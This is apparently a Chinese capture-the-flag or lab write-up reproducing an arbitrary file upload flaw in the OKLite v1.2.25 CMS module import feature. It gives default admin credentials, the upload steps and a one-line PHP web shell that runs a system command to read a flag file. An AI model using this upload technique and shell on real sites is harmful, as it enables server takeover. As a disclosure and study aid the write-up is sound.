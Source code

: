 ## 1. 漏洞介绍

锟铻科技 OKLite是中国锟铻科技公司的一套基于PHP的企业建站内容管理系统（CMS）。

锟铻科技 OKLite v1.2.25版本中的framework/admin/modulec_control.php文件存在代码问题漏洞，该漏洞源于ZIP归档文件的.php文件可以写入到/data/cache/。攻击者可利用该漏洞上传任意文件。

## 2. 漏洞复现

登录：admin/123456，url：…….com/admin.php

模块管理-模块导入-上传个zip（里面放个shell），示例

cat_flag.php

```PHP
<?php system("cat /flag");?>
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301137631.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301137852.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312301138108.png)
